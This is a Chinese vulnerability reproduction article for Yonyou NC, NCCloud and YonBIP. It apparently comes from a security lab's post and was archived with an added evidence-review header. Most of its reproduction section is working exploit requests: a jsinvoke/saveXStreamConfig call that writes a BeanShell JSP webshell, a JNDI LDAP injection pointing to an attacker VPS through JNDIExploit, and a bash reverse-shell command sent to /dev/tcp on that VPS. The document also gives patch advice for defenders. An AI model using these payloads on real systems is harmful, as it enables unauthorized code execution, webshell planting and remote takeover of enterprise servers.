







# 用友NC/NCCloud/YonBIP saveXStreamConfig及EL JNDI执行链

## 条目说明

- 对象与具体问题：用友NC/NCCloud/YonBIP；saveXStreamConfig及EL JNDI执行链
- 版本、配置及部署条件：NC63/633/65、NCC1903–2111、BIP2207声明
- 认证与权限前提：前台；JNDI网络/Java/容器gadget条件
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 所有HTTP缺头体空行；ladp拼错，Linux bash与Windows初测需分环境
- NCCloud面向中小企业简介缺依据且与大型平台常见定位冲突待核
- TomcatEcho/BeanShell两载荷是同文件写入后的变体，不能算两个漏洞

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/CdWxRYHaU2xD03qfFvz-XQ)

  

网安引领时代，弥天点亮未来 

  

  


  

**0x00 写在前面**  

  

**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**

用友 NC 产品是面向集团企业的世界级高端管理软件，市场占有率在同类产品中已经达到亚太第一，已在 8000 家集团企业中应用，国内用户涵盖大多数关键基础设施运营单位。用友 NC 综合利用最新的互联网技术、云计算技术、移动应用技术等，通过构建大企业私有云来全面满足集团企业管理、全产业链管控和电子商务运营，

用友 NC-Cloud 是用友网络科技公司推出的一款面向中小企业的云服务产品。该产品整合了用友各类管理软件如 ERP、CRM、OA 等, 实现了这些软件的云化部署。用友 NC-Cloud 存在任意文件上传漏洞，通过 uapjs（jsinvoke）利用漏洞可非法上传后后门程序。该漏洞利用难度低，可导致远程命令执行，建议尽快修复。


  

**0x02 影响版本**  

  

NC63、NC633、NC65、NC Cloud1903、NC Cloud1909、NC Cloud2005、NC Cloud2105、NC Cloud2111、YonBIP 高级版 2207


  

**0x03 漏洞复现**  

  

1. 访问漏洞环境


2. 对漏洞进行复现  

 **Poc（POST）**

```http
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: 127.0.0.1
Connection: Keep-Alive
Content-Length: 253
Content-Type: application/x-www-form-urlencoded
{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${param.getClass().forName(param.error).newInstance().eval(param.cmd)}","webapps/nc_web/302.jsp"]}

```

POST 请求，响应存在漏洞



       命令执行操作（ipconfig）

```http
POST /302.jsp?error=bsh.Interpreter HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.9
Cookie: cookiets=1681785470496; JSESSIONID=33989F450B1EA57D4D3ED07A343770FF.server
If-None-Match: W/"1571-1589211696000"
If-Modified-Since: Mon, 11 May 2020 15:41:36 GMT
Content-Type: application/x-www-form-urlencoded
Content-Length: 98
cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec("ipconfig").getInputStream())

```



     3. 反弹 shell 参考这篇文章。

    [  https://mp.weixin.qq.com/s/Qgoo8OdJH4fUtreqdXR-3Q](https://mp.weixin.qq.com/s?__biz=MzU2NDgzOTQzNw==&mid=2247495908&idx=1&sn=12bd56daa5daa85c581307fdf66b4874&scene=21#wechat_redirect)

      利用 JNDI 注入工具 TomcatEcho 回显链

```
 java -jar JNDIExploit-1.4-SNAPSHOT.jar -u

```



    使用 ladp 加载利用链 

```http
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: 127.138.100.158:8080
Connection: Keep-Alive
Content-Length: 253
Content-Type: application/x-www-form-urlencoded
{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${''.getClass().forName('javax.naming.InitialContext').newInstance().lookup('ldap://VPSip:1389/TomcatBypass/TomcatEcho')}","webapps/nc_web/301.jsp"]}

```



vps 开始 ladp 监听



bash 反弹 shell

```http
GET /301.jsp HTTP/1.1
Host: 127.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
cmd: bash -i >& /dev/tcp/vps/12388 0>&1

```



vps 监听 12388 端口获取反弹 shell。




  

**0x04 修复建议**  

  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

```
https://dsp.yonyou.com/patchcenter/patchdetail/11231678267338650434/0/2

```

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
